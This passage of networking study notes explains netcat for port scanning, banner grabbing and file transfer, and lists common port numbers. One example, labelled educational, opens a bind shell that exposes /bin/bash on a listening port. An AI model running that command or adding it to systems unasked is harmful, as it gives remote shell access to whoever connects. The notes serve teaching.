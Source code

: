 #### F. Netcat as Network Tool:

**1. Netcat Capabilities:**

```bash
# Port scanning
nc -zv target_ip port_range

# Banner grabbing
nc target_ip port

# File transfer
nc -l 1234 < file.txt        # Sender
nc target_ip 1234 > file.txt # Receiver

# Backdoor/Reverse shell (educational purposes)
nc -l 1234 -e /bin/bash      # Listener
nc target_ip 1234            # Connect
```

**2. Network Troubleshooting:**

```bash
# Test connectivity
nc -zv google.com 80

# Check service response
echo "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80

# UDP testing
nc -u target_ip port
```

#### G. Port Categories and Ranges:

**1. Well-Known Ports (0-1023):**

```
Common Services:
├── 21: FTP (File Transfer Protocol)
├── 22: SSH (Secure Shell)
├── 23: Telnet
├── 25: SMTP (Simple Mail Transfer Protocol)
├── 53: DNS (Domain Name System)
├── 80: HTTP (HyperText Transfer Protocol)
├── 110: POP3 (Post Office Protocol v3)
├── 143: IMAP (Internet Message Access Protocol)
├── 443: HTTPS (HTTP Secure)
└── 993: IMAPS (IMAP Secure)
```

**2. Registered Ports (1024-49151):**

```
Examples:
├── 3306: MySQL Database
├── 5432: PostgreSQL Database  
├── 8080: Alternative HTTP
└── 8443: Alternative HTTPS
```

